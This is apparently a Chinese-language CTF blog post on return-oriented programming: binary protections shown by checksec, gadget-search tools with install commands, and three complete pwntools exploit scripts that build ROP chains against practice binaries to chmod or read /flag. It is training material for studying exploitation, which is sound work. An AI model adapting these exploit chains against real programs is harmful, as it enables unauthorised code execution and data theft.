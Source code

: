 ```yaml
---
layout: post
tags: [pwn]
title: "ROP 利用手法"
author: wsxk
date: 2025-1-15
comments: true
---
```


- [0. checksec起手](#0-checksec起手)
- [1. ROP gadgets 搜索](#1-rop-gadgets-搜索)
  - [1.1 ROPgadget](#11-ropgadget)
  - [1.2 one\_gadget](#12-one_gadget)
  - [1.3 rp++](#13-rp)
- [2. ROP 防御绕过技巧](#2-rop-防御绕过技巧)
  - [2.1 只开启ASLR(Address Space Layout Randomization)和NX，no-pie](#21-只开启aslraddress-space-layout-randomization和nxno-pie)
    - [2.1.1 泄露stack地址完成绕过](#211-泄露stack地址完成绕过)
    - [2.1.2 no-pie写bss段](#212-no-pie写bss段)
    - [2.1.3 没有syscall gadget](#213-没有syscall-gadget)

# 0. checksec起手<br>
一般情况下，安装`pwntools`后，就会默认帮你安装`checksec`，这个命令非常好用，主要的功能是帮助你了解程序开启了哪些保护。<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250112103808.png)
```
Arch: 
程序架构，这里告诉你是x86_64

RELRO(read only relocation): 
设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。

Stack: 
有无canary

NX: 
no-execute，即栈不可执行

PIE(position independent executable): 
位置无关代码

SHSTK: 前提条件，开启CET（CONTROL-FLOW ENFORCEMENT TECHNOLOGY）
shadow stack，当shadow stack开启时，CALL指令会把返回地址同时压入数据栈和影子栈（shadow stack），RET指令会把返回地址同时从数据栈和影子栈取出，并比较。
如果从两个栈中取出的返回地址不匹配，那么就会触发控制保护异常（#CP）

IBT: 前提条件，开启CET（CONTROL-FLOW ENFORCEMENT TECHNOLOGY）
indirect branch tracker,应用于间接跳转（jmp/call指令），如果在间接跳转后的下一条指令不是ENDBR32或ENDBR64，就会触发#CP异常。
并不包括RIP相对跳转、远直接jmp跳转、call相对跳转等，这些都是跳转到固定地址，不存在被篡改的可能，因此IBT并不作用于这种情况

Stripped：是否去了符号 

```
总之，开始ctf之前，起手checksec是常规操作<br>

# 1. ROP gadgets 搜索<br>
工欲善其事，必先利其器<br>
ROP中的gadget，人工搜索不现实，这里列出几个常见的好用的rop gadget搜索工具<br>
## 1.1 ROPgadget<br>
`pwntools`安装好后自带的gadget搜索工具<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250113192206.png)
通常情况下，`ROPgadget`能满足绝大部分需求<br>

## 1.2 one_gadget<br>
所谓`one_gadget`，是指一条指令就能`get shell`的指令，通常使用在你已经获得了程序执行用到的`libc`文件后执行。<br>
安装步骤如下:(ubuntu20.04)<br>
```
sudo apt install ruby
sudo apt install gem
sudo gem install elftools -v 1.2.0
sudo gem install one_gadget -v 1.9.0
```

## 1.3 rp++<br>
据说是最好用的gadget搜索工具，搜的比ROPgadget全，如果ROPgadget找不到gadget，不妨试试rp++<br>
在`ubuntu20`上安装过程如下:<br>
```
git clone https://github.com/0vercl0k/rp.git
cd rp/src/build
chmod 777 build-release.sh
sudo apt install cmake
sudo apt install ninja-build
./build-release.sh
cp rp-lin /usr/local/bin/rp++

# 使用
rp++ -f babyrop_level6.1  -r3 --colors
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250120210033.png)

# 2. ROP 防御绕过技巧<br>
## 2.1 只开启ASLR(Address Space Layout Randomization)和NX，no-pie<br>
ASLR和pie的关联和联系是：<br>
```
pie是一种编译选项，即这个程序是否是位置无关的代码；
aslr是系统选项，对于开启了aslr的系统，在加载程序时，会尝试把程序装载到随机的基地址上

如果：
1、关闭aslr
  程序无论是否有pie，装载基地址不变

2、开启aslr，且值为1
  程序没有pie，程序本身装载基地址不变；除heap外的其他部分（如libc、stack等等）会装载在随机地址
  程序有pie，程序本身装载基地址也会变化

3、开启aslr，且值为2
  程序没有pie，程序本身装载基地址不变；其他部分（如libc、stack、heap等等）会装载在随机地址
  程序有pie，程序本身装载基地址也会变化
```

### 2.1.1 泄露stack地址完成绕过<br>
如果你知道`stack`的地址的话,我们可以**引用 写在栈空间上的数据，完成利用**<br>
```python
from pwn import *
context.log_level = 'debug'

p = process("./babyrop_level4.0")
p.recvuntil(b"[LEAK] Your input buffer is located at: 0x")
stack_addr= int(p.recv(12),16)
print("buffer_addr:",hex(stack_addr))

syscall = 0x0000000000402641
pop_rdi_ret = 0x0000000000402669
pop_rsi_ret = 0x0000000000402671
pop_rdx_ret = 0x000000000040264a
pop_rcx_ret = 0x0000000000402662
pop_rax_ret = 0x0000000000402651
payload = b"/flag\x00".ljust(0x50+8,b"a")+ p64(pop_rdi_ret)+p64(stack_addr)+p64(pop_rsi_ret)+p64(511)+p64(pop_rax_ret)+p64(90)+p64(syscall)
#print(shellcraft.sh())
p.send(payload)
p.interactive()
```

### 2.1.2 no-pie写bss段<br>
如果系统开启了aslr，但是程序是`no-pie`的，这意味着程序段的地址是固定的，我们可以先在bss段中写入我们想要使用的字符串，比如"/flag"，然后进行二次利用：<br>
**核心思路：bss段的值默认为0；且代码中能够找到`pop rcx; ret`、`pop rax; ret`、`add byte ptr [rcx], al ; pop rbp ; ret`三个gadgets，这样即可直接写入字符串**<br>
```python
from pwn import *
context.log_level = 'debug'

p = process("./babyrop_level5.0")
gdb.attach(p)
pause()

syscall = 0x000000000040270f
pop_rdi_ret = 0x00000000004026df
pop_rsi_ret = 0x00000000004026ff
pop_rdx_ret = 0x00000000004026f0
pop_rcx_ret = 0x0000000000402708
pop_rax_ret = 0x00000000004026e8
# 0x000000000040127b : add byte ptr [rcx], al ; pop rbp ; ret
add_byteptrrcx_al_pop_rbp_ret = 0x000000000040127b

bss_addr = 0x405200
key_string = b"/flag\x00"
payload = b"a".ljust(0x60+8,b"a")
for i in range(len(key_string)):
    payload += p64(pop_rcx_ret)+p64(bss_addr+i)+p64(pop_rax_ret)+p64(key_string[i])+p64(add_byteptrrcx_al_pop_rbp_ret)+p64(0)
payload +=  p64(pop_rdi_ret)+p64(bss_addr)+p64(pop_rsi_ret)+p64(511)+p64(pop_rax_ret)+p64(90)+p64(syscall)
#print(shellcraft.sh())
p.send(payload)
p.interactive()
```

### 2.1.3 没有syscall gadget<br>
如果没有`syscall gadget`，我们应该如何完成利用呢?<br>
解答：**利用程序已有的plt，一般来说open,read,write都是有的，且调用plt时，无需担心没有ret的问题~;另一点就是利用程序fd是顺序增长的原理，可以猜测open的fd是哪个值**<br>

```python
from pwn import *
context.log_level = 'debug'

p = process("./babyrop_level6.1")
gdb.attach(p,"b *0x0000000000401c58")
pause()


pop_rdi_ret = 0x0000000000401c58
pop_rsi_ret = 0x0000000000401c50
pop_rdx_ret = 0x0000000000401c48
pop_rcx_ret = 0x0000000000401c40
bss_addr = 0x404200
key_string = b"/flag\x00"
key_string_len = len(key_string)
read_addr = 0x4010D0
open_addr = 0x401100
sendfile_addr = 0x4010E0

payload = b"a".ljust(0x20+8,b"a")
payload += p64(pop_rdi_ret)+p64(0)+p64(pop_rsi_ret)+p64(bss_addr)+p64(pop_rdx_ret)+p64(key_string_len) + p64(read_addr) # read "/flag" 
payload += p64(pop_rdi_ret)+p64(bss_addr)+p64(pop_rsi_ret)+p64(0)+p64(open_addr) # open /flag
payload += p64(pop_rdi_ret)+p64(1)+p64(pop_rsi_ret)+p64(3)+p64(pop_rdx_ret)+p64(0)+p64(pop_rcx_ret)+p64(100)+p64(sendfile_addr) # sendlife(stdout,/flag,0,100)
p.send(payload)

p.send(key_string)
p.interactive()
```